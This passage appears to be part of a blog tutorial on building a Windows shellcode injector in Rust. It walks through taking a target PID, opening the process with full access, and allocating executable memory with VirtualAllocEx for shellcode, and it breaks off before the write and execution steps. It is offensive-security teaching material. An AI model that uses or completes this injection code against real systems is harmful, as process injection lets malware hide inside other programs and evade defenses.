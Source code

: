 Alright, so let's start with the main function, first things first, we will get an argument to the binary which will be the id of the Process to Inject. Although it's fairly simple to enumerate all processes and inject into one by their name, I will keep the latter for part 2 maybe. Rust has a [great doc](https://doc.rust-lang.org/book/ch12-01-accepting-command-line-arguments.html) which talks about most of the stuff and how to do it.

### Parsing Arguments

```rust
    let args: Vec<_> = std::env::args().collect();
    if args.len() > 2 {
        println!("Ignoring {} extra args", args.len() - 2);
        println!("[*] Usage: {} <PID>", args[0]);
    }
```

A Vector in rust is similar to that of C++, think of it as an array which is allowed to grow / shrink in size. An `_` just means that we let the compiler infer what will be the data type of the arguments or when we can ignore it. But since we want to have an integer as our first argument, we can convert it to an integer and handle the case accordingly.

```rust
let pid: u32 = args[1].parse().expect("Please provide a valid integer");
```

Now we can open a handle to the process and use an if let expression to handle the `Result` in Rust. Since Rust considers these to be unsafe (winapi) ,  it is important for us to call these inside an `unsafe` block, else the compiler will show an error.

### Get Handle to Process

```rust
unsafe {
        // you might have to import PROCESS_ALL_ACCESS as well
        // hProcess is of type Result
        let hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
        if let Ok(hProcess) = hProcess {
            println!("Opened Handle: {:?}", hProcess);
            // do stuff
            CloseHandle(hProcess);
        }
        else {
            let err_code = GetLastError();
            println!("Failed to get Handle : {:?}", err_code);
        }
    }
```

we might have to import `PROCESS_ALL_ACCESS` which can be imported under the same module as the function was imported (this should be the case for most of the parameters). Then we just have to Allocate memory in the process and write our shellcode to it.

### Allocate Memory for Shellcode

```rust
let shell_size = shellcode.len();
let buf = VirtualAllocEx(hProcess, Some(null()), shell_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if buf.is_null() {
    eprintln!("VirtualAlloc Failed : {:?}", GetLastError());
    std::process::exit(2);
}
println!("Allocated Memory for shellcode");
```
